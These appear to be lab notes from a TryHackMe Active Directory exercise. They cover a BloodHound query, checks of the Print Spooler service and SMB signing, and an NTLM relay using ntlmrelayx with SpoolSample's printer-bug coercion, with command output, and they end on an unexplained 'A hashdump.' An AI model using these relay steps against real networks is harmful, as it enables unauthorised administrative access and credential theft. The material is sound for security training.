

# Exploiting automated relays

We can force a computer account to initiate an authentication request. Computer accounts – like user accounts – have 
a username and password. Computer account usernames end in `$` – for example, `server01$`.

## Machine accounts

Use a custom Bloodhound query to find computer accounts that have admin rights over other computer accounts:

    MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p

| 
|:--:|
| This query will attempt to find instances where a computer has the "AdminTo" relationship over <br>another computer. |

## The Printer Bug

The printer bug feature allows a domain user to force a computer account to connect to an arbitrary IP address. In 
order for this to work, the following must be true:
* Possess a valid set of AD credentials
* Target host is running SMB
* Target host is running Print Spooler service
* SMB signing must not be enforced

Condition 1 and 2 have been met already.

### Verify the Print Spooler service is running

```text
PS C:\Users\t2_alan.riley> Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc

Name                 ComputerName         Description          PortMonitor
----                 ------------         -----------          -----------
COM1:                thmserver2.za.try... Local Port           Local Monitor
COM2:                thmserver2.za.try... Local Port           Local Monitor
COM3:                thmserver2.za.try... Local Port           Local Monitor
COM4:                thmserver2.za.try... Local Port           Local Monitor
FILE:                thmserver2.za.try... Local Port           Local Monitor
LPT1:                thmserver2.za.try... Local Port           Local Monitor
LPT2:                thmserver2.za.try... Local Port           Local Monitor
LPT3:                thmserver2.za.try... Local Port           Local Monitor
PORTPROMPT:          thmserver2.za.try... Local Port           Local Monitor
```

### Verify SMB signing enforcement

```text
$ sudo nmap -Pn -p445 --script=smb2-security-mode thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
[sudo] password for nina: 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 18:24 GMT
Nmap scan report for thmserver1.za.tryhackme.loc (10.200.60.201)
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap scan report for thmserver2.za.tryhackme.loc (10.200.60.202)
Host is up (0.041s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 2 IP addresses (2 hosts up) scanned in 2.85 seconds

$ dig thmserver1.za.tryhackme.loc

; <<>> DiG 9.18.7-1-Debian <<>> thmserver1.za.tryhackme.loc
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14249
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;thmserver1.za.tryhackme.loc.	IN	A

;; ANSWER SECTION:
thmserver1.za.tryhackme.loc. 3600 IN	A	10.200.60.201

;; Query time: 68 msec
;; SERVER: 10.200.60.101#53(10.200.60.101) (UDP)
;; WHEN: Mon Nov 07 18:26:01 GMT 2022
;; MSG SIZE  rcvd: 72
```

## Exploit authentication relay

* Use `NTLM` authentication against the target – `THMSERVER1`
* `THMSERVER2` has administrative privileges over `THMSERVER1`
* Use `SpoolSample.exe` to connect to `THMSERVER2` and tell it to authenticate back to us
* Relay that authentication request to `THMSERVER1`
* `THMSERVER1` will see it as though we are connecting as `THMSERVER2`, which will give us administrative privileges

Set up the NTLM relay:

```text
$ python3 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -debug
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.10/dist-packages/impacket-0.10.1.dev1+20220720.103933.3c6713e3-py3.10.egg/impacket
...
[*] Servers started, waiting for connections
```

Get IP address attack machine on the THM network:

```text
$ ifconfig                                               
...
exploitingad: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.50.57.175  netmask 255.255.255.0  destination 10.50.57.175
        inet6 fe80::712c:cfa0:413f:458f  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 53151  bytes 19626273 (18.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 61363  bytes 4371437 (4.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
...
```

On `THMWRK1`, exploit:

```text
PS C:\Users\t2_alan.riley> C:\Tools\SpoolSample.exe thmserver2.za.tryhackmloc "10.50.57.175"
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\thmserver2.za.tryhackmloc, CaptureServer: \\10.50.57.175
```

A hashdump.